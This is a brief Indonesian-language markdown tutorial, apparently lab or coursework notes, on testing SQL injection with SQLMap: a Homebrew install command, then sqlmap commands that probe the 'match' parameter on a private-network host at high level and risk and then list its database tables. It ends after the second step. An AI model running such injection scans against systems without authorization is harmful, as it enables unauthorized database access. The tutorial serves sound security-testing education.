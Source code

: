 # Pengujian SQL Injection Menggunakan SQLMap
## Instalasi SQLMap menggunakan Homebrew
Lakukan instalasi `brew install sqlmap`
![](/assets/sqlmap/1.png)
## Pengujian SQL Injection menggunakan SQLMap
1. Untuk melakukan pengecekan pada parameter, apakah mengandung vulnerable `sqlmap --url="http://10.151.36.103/?match=1" --level 5 --risk 3 --dbms mysql`
![](/assets/sqlmap/2.png)
2. `sqlmap --url "http://10.151.36.103/?match=1" --tables`

